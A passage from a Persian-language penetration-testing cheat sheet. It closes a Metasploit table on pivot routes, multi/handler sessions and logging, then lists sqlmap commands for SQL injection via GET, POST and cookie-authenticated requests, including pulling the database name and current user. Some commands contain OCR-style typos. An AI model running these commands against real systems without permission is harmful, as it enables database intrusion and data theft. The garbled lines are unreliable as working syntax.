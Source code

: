       <td style="text-align:left">route add ip mask session id</td>
      <td style="text-align:left">اضافه نموده route &#xB7;در درون نشست (pivot)</td>
    </tr>
    <tr>
      <td style="text-align:left">exploit/multi/handler - set ExitOnSession False</td>
      <td style="text-align:left">
        <p>نمایش تنظیمات بیشتر</p>
        <p>شل ها</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>set ConsoleLogging true (also</p>
        <p>SessionLogging)</p>
      </td>
      <td style="text-align:left">فعال سازی گزارش گیری</td>
    </tr>
  </tbody>
</table>


## دستور Sqlmap

### ارسال درخواست Get

```text
sqlmap.py -u "http://url?id=1&str=val"
```

### ارسال درخواست Post

```text
sqlmap.py -u "http://url" --data="id=1&str=val"
```

### تزریق sql در پارامتر خاص و دانستن نوع دیتابیس 

```text
sqlmap.py -u "http://url" --data="id=l&str=val" -p "id"
-b --dbms="mssqllmysqlloraclelpostgres"
```

### تزریق sql در صفحه نیازمند احراز هویت 

```text
1.Login and note cookie value (cookie1=val1, cookie2=val2)
sqlmap.py -u "http:// url "--data="id=l&str=val" -p "id"
--cookie="cookiel=vall;cookie2=val2"
```

### تزریق sql و دریافت نسخه پایگاه داده و نام و کاربر آن 

```text
./sqlmap.py -u "http://url" --data="id=1&str=val" -p "id" -b --current-db
--current-user
```
